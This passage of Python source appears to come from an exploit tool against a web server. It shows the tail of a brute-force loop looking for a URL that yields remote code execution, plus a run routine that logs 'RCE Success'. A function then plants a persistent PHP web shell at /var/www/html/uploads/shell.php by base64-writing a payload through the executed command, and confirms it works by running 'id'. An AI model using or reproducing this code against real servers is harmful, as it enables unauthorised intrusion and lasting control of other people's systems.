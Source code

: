 ```python
                            res = fut.result()
                        except Exception:
                            continue
                        if res:
                            url, status, headers, text = res
                            print("\n" + "="*60)
                            print(f"[FOUND] {url}  (HTTP {status})")
                            if headers:
                                print("-- Response headers --")
                                for k, v in headers.items():
                                    print(f"{k}: {v}")
                            if self.config.show_response:
                                print("-- Response --")
                                cap = 64 * 1024
                                body = text if len(text) <= cap else text[:cap] + "\n...[truncated]"
                                print(body)
                            print("="*60 + "\n")
                            logger.info(f"[FOUND NUMBER] {url}")
                            self.stop_evt.set()
                            return url, text
                except Exception as e:
                    logger.debug(f"Bruteforce loop exception: {e}")
        return None, None

    def upload_shell_persist(self, hit_url: str, payload_path: str = "/var/www/html/uploads/shell.php") -> None:
        try:
            b64 = base64.b64encode(self.config.php.encode()).decode()
            php_cmd = f"php -r 'file_put_contents(\"{payload_path}\", base64_decode(\"{b64}\"));'"
            self.session.get(f"{hit_url}&stage=persist", params={}, allow_redirects=False)
            r = self.session.get(f"{hit_url.split('?')[0]}?0={quote(php_cmd, safe='')}")
            logger.info(f"[persist] Write Shell To {payload_path}")
            test = self.session.get(f"{self.base.rstrip('/')}/uploads/{payload_path.split('/')[-1]}?0=id")
            if test.status_code == 200:
                logger.info(f"[persist] OK: {test.text.strip()}")
            else:
                logger.warning(f"[persist] test HTTP {test.status_code}")
        except Exception as e:
            logger.error(f"[persist] error: {e}")

    def stop(self) -> None:
        self.stop_evt.set()
        if self.upload_thread:
            self.upload_thread.join(timeout=1.0)
        logger.info("Stopped")

    def run(self) -> None:
        try:
            self.start_upload_loop()
            hit_url, text = self.bruteforce()
            if hit_url:
                logger.info(f"[+] RCE Success At: {hit_url}")
                if self.config.persist:
                    self.upload_shell_persist(hit_url)
            else:
                logger.info("[-] No found number.")
        except KeyboardInterrupt:
            logger.info("Interrupted by user.")
        finally:
            self.stop()

```